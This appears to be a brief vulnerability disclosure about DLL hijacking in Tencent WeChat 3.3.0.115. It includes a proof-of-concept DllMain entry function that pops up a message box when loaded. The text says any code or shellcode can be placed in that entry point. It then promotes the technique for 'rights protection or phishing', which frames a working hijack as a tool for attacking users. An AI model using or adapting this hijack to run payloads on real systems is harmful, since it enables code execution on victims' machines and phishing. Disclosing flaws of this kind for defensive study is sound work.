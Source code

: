 DLL hijacking found in Tencent wechat, version 3.3.0.115

demonstration

For example:

`////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////`
`BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)`
`{`
	`if (dwReason == DLL_PROCESS_ATTACH)`
	`{`
		`DisableThreadLibraryCalls(hModule);`
		`MessageBox(NULL, (LPCTSTR)TEXT("1"), (LPCTSTR)TEXT("1"), MB_OK);`
	`}`
	`else if (dwReason == DLL_PROCESS_DETACH)`
	`{`



`}`
`return TRUE;`

`}`

You can define any code and shellcode to execute in the DLL's entry function!!

Very simple, we can be used for rights protection or phishing!!!


